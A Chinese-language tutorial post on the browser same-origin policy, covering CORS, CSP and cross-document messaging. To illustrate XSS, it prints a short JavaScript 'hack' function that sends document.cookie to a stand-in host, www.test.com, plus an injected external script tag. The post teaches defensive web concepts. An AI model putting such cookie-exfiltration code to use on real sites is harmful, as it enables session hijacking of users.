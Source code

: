 ```yaml
---
title: 27.同源策略
date: 2020-05-29
---
```


## 前言
web巨大包容性的原因，使得我们可以访问全世界的各个资源，开拓眼界。但并不是所有的资源我们都可以获取并展示的，我们在自己的页面里面获取其他网站的内容时，浏览器会提示我们`Access to XMLHttpRequest at 'XXX' from origin 'XXX' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource`，这个问题相信很多工程师都遇到过，这是由于浏览器的安全策略导致的，限制原因就是：同源策略。

## 什么是同源策略

```html
1. http://zerocore.cc:8080
2. http://zerocore.cc
3. http://zerocore.cc:80
4. https://zerocore.cc
5. https://zerocore.cc:443
```
看上面的5个地址，有什么区别么？

1、2、4区别就在于协议、地址、端口的区别，而2和3，4和5没有区别，原因是因为https的默认端口就是443，https默认访问端口是443，http的默认访问端口是80，只不过是浏览器帮助我们简化了这一步。

所以，**如果两个URL的协议、域名和端⼝都相同，那么这两个URL同源。**。浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM，那么会有⼀套基础的安全策略的制约，这个策略就是**同源策略**。

而同源策略主要表现在DOM、Web数据和⽹络这三个层⾯：

1. DOM层⾯。同源策略限制了来⾃不同源的JavaScript脚本对当前DOM对象读和写的操作。具体表现在一个页面无法操作另一个非同源页面的DOM对象读和写

2. 数据层⾯。同源策略限制了不同源的站点读取当前站点的Cookie、SessionStorage、LocalStorage等数
据。由于同源策略，⽆法通过一个页面访问另一个非同源页面中的Cookie、SessionStorage或者
LocalStorage等内容。

3. ⽹络层⾯。同源策略限制了通过XMLHttpRequest等⽅式将站点的数据发送给不同源的站点。最常见的问题就是会遇到浏览器报错为`Access to XMLHttpRequest at 'XXX' from origin 'XXX' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource`。

注意：这里报错的原因的确是同源策略的原因，但是本质上获取的数据已经得到的了，只是浏览器拦截了这个操作，我们常说服务端请求数据是没有同源策略限制的，同源策略是前端的限制。

## 矛和盾：便利性与安全性

同源策略会隔离不同源的DOM、⻚⾯数据和⽹络通信，进⽽实现Web⻚⾯的安全性。

不过安全性和便利性是相互对⽴的，让不同的源之间绝对隔离，⽆疑是最安全的措施，但这也会使得Web项⽬难以开发和使⽤。因此我们就要在这之间做出权衡，出让⼀些安全性来满⾜灵活性；⽽出让安全性⼜带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击是我们常见的两种前端攻击方式，也是开发中最容易忽略的。

### 1. ⻚⾯中可以嵌⼊第三⽅资源

Web世界是开放的，可以接⼊任何资源，⽽同源策略要让⼀个⻚⾯的所有资源都来⾃于同⼀个源，也就是要将该⻚⾯的所有HTML⽂件、JavaScript⽂件、CSS⽂件、图⽚等资源都部署在同⼀台服务器上，这⽆疑违背了Web的初衷，也带来了诸多限制。⽐如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外⼀个域名上，因此我们就需要同源策略对⻚⾯的引⽤资源开⼀个“⼝⼦”，让其任意引⽤外部⽂件。

所以最初的浏览器都是⽀持外部引⽤资源⽂件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的⼀个问题是浏览器的⾸⻚内容会被⼀些恶意程序劫持，劫持的途径很多，其中最常⻅的是恶意程序通过各种途径往HTML⽂件中插⼊恶意脚本。

```html
<html>
    <head>
        <script src="http://www.test.com/test.js"></script>
        ...
    </head>
    ...
</html>
```

当这段HTML⽂件的数据被送达浏览器时，浏览器是⽆法区分被插⼊的⽂件是恶意的还是正常的，这样恶意脚本就寄⽣在⻚⾯之中，当⻚⾯启动时，它可以修改⽤⼾的搜索结果、改变⼀些内容的连接指向，等等。

除此之外，它还能将⻚⾯的的敏感数据，如Cookie、SessionStorage、LoacalStorage等数据通过XSS的⼿段发送
给服务器。具体来讲就是，当你不⼩⼼点击了⻚⾯中的⼀个恶意链接时，恶意JavaScript代码可以读取⻚⾯
数据并将其发送给服务器，如下⾯这段代码:

```js
function hack(){
    let url = `http://www.test.com?cookie = ${document.cookie}`
    window.open(url)
}
hack()
```

在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加⾄恶意站点尾部，当打开该恶意⻚⾯时，恶意服务器就能接收到当前⽤⼾的Cookie信息。

以上就是⼀个⾮常典型的XSS攻击。为了解决XSS攻击，浏览器中引⼊了内容安全策略，称为CSP。**CSP的核⼼思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执⾏内联JavaScript代码**。通过这些⼿段就可以⼤⼤减少XSS攻击。

### 2. 跨域资源共享和跨⽂档消息机制

默认情况下，如果打开⻚⾯，在⻚⾯中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻⽌其向InfoQ发出请求，这样会⼤⼤制约我们的⽣产⼒。

为了解决这个问题，我们引⼊了跨域资源共享（CORS），使⽤该机制可以进⾏跨域访问控制，从⽽使跨域数据传输得以安全进⾏。

在介绍同源策略时，我们说明了如果两个⻚⾯不是同源的，则⽆法相互操纵DOM。不过在实际应⽤中，经常需要两个不同源的DOM之间进⾏通信，于是浏览器中⼜引⼊了跨⽂档消息机制，可以通过window.postMessage的JavaScript接⼝来和不同源的DOM进⾏通信。

